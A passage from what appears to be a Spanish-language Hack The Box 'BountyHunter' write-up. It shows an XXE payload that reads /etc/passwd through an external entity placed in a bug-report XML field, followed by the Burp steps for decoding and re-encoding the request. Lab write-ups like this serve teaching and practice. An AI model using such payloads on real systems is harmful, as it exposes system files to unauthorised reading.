 Probamos el siguiente código en XML el cual me devolvería el contenido de un archivo interno, en este caso el “passwd”.

~~~
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&file;</title>
		<cwe>prueba</cwe>
		<cvss>prueba</cvss>
		<reward>prueba</reward>
		</bugreport>
~~~

Ahora para meter el código anterior hacemos lo siguiente:

Decode URL:

![](/assets/images/post_HTB_bountyhunter/burp4.png)

Decode base64 y vemos el contenido xml de los datos que introdujimos primero.

![](/assets/images/post_HTB_bountyhunter/burp5.png)

Cambiamos el código y hacemos “encode base64”
